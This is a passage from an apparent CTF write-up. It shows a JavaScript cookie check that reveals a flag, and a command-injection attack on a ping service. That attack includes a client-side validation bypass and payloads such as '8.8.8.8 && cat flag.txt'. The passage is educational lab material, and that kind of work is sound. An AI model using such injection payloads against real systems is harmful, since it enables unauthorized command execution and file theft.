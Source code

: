 Note that we can also let back to be heap address and front to be stack address, which is almost same except we need change \- 4 to be front.

# web

## Memmaker

This one is actually easy, in users.js :

```javascript
document.cookie = "username=guest";
if(document.cookie == "username=premium"){
    alert("PREMIUM: flag{" + ([]+{})[2] + (typeof null)[0] + (typeof NaN)[(typeof NaN).length - 1] + (typeof NaN[(typeof NaN).length - 1])[1] + ("" + (!+[]+[]+![]).length - 7) + ("" + (" " == 0)) +"}");
}
```

Just execute that alert and flag can be obtained.

Initially I didn't look at the script being included in \<head\> but only the script in index, because I thought it is something not useful like jquery.min.js, so I stucked quite a while...

## isitalive

firstly remove the client side restriction: 

```html
<input name="ip" placeholder="8.8.8.8" onkeydown="return valid(event);" type="text">
<!-- to -->
<input name="ip" placeholder="8.8.8.8" onkeydown="return true;" type="text">
```

and then you find it is a ping service, which is usually vunerable to command line injection\.

If we give "8.8.8.8 && ls" and "8.8.8.8 && cat flag.txt", we can get the flag\.

Note that "&" and spaces should be url encoded\.

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=59 time=2.085 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=59 time=1.380 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=59 time=1.402 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=59 time=1.338 ms
--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 1.338/1.551/2.085/0.309 ms
flag{if_only_routers_played_ctf}

https://www.kb.cert.org/vuls/id/582384
```

## shellshocked
